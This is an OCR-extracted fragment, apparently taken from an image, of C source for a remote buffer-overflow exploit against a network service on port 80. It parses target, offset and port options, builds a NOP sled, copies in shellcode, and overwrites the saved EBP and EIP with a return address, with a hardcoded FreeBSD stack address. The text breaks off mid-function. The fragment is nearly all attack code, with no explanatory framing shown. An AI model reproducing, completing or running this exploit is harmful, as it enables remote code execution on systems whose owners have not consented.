 
    int main(int argc, char **argv){

      char *buffer,*tmp;
      long retaddress;
      char rcv[200];
      int fd,i,arg,debug=0,type=0,port=80,offset=250;

      if(argc < 2) { usage(argv[0]); }

      while ((arg = getopt (argc, argv, "dh:o:l:p:t:")) != -1){
        switch (arg){
        case 'd':
        debug = 1;
        break;
        case 'o':
          offset = atoi(optarg);
          break;
        case 'p':
          port = atoi(optarg);
          break;
        case 't':
          type = atoi(optarg);
          break;
        default :
          usage(argv[0]);
        }
      }

      if((targets[type].retaddress) != 0) {
        buffer = (char *)malloc((targets[type].bufsize));

        /* some junk may be required to counter buffer manipulation */

        if(targets[type].junk == 1) {

        tmp = (char *)malloc(strlen(static_crap) + strlen(targets[type].shellcode));

        strcpy(tmp,targets[type].shellcode);
        strcat(tmp,static_crap);

        targets[type].shellcode = tmp;

        }

        memset(buffer,NOP,targets[type].bufsize);
        memcpy(buffer + (targets[type].bufsize) - (strlen(targets[type].shellcode) + 8) ,targets[type].
    shellcode,strlen(targets[type].shellcode));

        /* Overwrite EBP and EIP */
        *(long *)&buffer[(targets[type].bufsize) - 8]  = (targets[type].retaddress - targets[type].offset);


        // If freebsd we need to place a value without 00 in ebp

        if(type == 4) {
           *(long *)&buffer[(targets[type].bufsize) - 8]  = 0xbfbff654;
        }

